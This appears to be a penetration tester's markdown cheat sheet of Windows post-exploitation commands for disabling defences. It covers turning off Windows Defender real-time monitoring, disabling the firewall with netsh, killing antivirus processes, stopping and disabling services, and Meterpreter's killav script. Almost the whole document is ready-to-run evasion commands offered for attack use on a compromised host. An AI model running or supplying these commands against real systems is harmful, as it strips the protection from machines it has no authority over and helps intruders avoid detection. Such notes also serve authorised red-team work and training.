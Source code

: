 # Disable Antivirus

**Description:** Commands to disable antivirus to make post exploitation eaiser. Please note that these should not be considered OPSEC safe. 

## Disable real-time monitoring for Windows Defender

```Set-MpPreference -DisableRealtimeMonitoring $true```

## Disable Windows Firewall

```netsh advfirewall set allprofiles state off```

## Manually Disable Antivirus

```Taskkill /F /IM avprocess.exe```

## Stop an Antivirus Service

```net stop “service name”```

## Disable a Windows Service

```sc config "service name" start= disabled```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```run killav```

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
